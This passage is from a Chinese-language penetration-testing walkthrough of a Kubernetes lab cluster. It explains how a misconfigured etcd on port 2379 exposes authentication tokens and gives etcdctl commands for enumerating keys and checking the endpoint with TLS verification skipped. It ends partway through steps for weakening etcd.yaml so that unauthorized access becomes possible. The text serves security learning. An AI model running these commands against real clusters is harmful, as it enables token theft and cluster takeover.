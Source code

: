 还是没权限，但能执行命令了也许 getshell 了，如果获得了权限接下来的操作和攻击 8080 端口类似

### 攻击 2379 端口

原理  
etcd 组件默认监听 2379 端口：默认通过证书认证，主要存放节点的信息，如一些 token 和证书。  
kubernetes 的 master 会自动安装 etcd v3(注意版本) 用来存储数据，如果管理员进行了错误的配置，导致 etcd 未授权访问的情况，那么攻击者就可以从 etcd 中拿到 kubernetes 的认证鉴权 token，从而接管集群。  
利用  
etcd2 和 etcd3 是不兼容的，两者的 api 参数也不一样。**k8s 现在使用的是 etcd v3**，**必须提供 ca、key、cert**，否则会出现 Error: context deadline exceeded。  
nmap 虽然没有扫到 node01 和 node02 的 2379 端口，但执行命令后依旧可以得到回显，可以看到 Error: context deadline exceeded。

```bash
etcdctl --endpoints=https://192.168.108.100:2379 get / --prefix --keys-only
#得到的回显
{"level":"warn","ts":"2023-11-22T10:34:49.456+0800","caller":"clientv3/retry_interceptor.go:62","msg":"retrying of unary invoker failed","target":"endpoint://client-64f6a717-0ddc-4dc9-a1ca-a2097c19d93c/192.168.108.100:2379","attempt":0,"error":"rpc error: code = DeadlineExceeded desc = latest balancer error: all SubConns are in TransientFailure"}
Error: context deadline exceeded
```

[![](assets/1701678402-b916c884ddecacdbc7347b231c6279d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e941a224-8f70-1.png)  
默认情况下需要授权才能访问，带上证书访问：

```bash
etcdctl --insecure-skip-tls-verify --insecure-transport=true --endpoints=https://192.168.108.100:2379 --cacert=ca.pem --key=etcd-client-key.pem --cert=etcd-client.pem endpoint health
```

但目前版本的 2379 端口不存在未授权，因此修改配置，配置文件：/etc/kubernetes/manifests/etcd.yaml，下图红框中的配置从 true 改为 false 或者注释掉  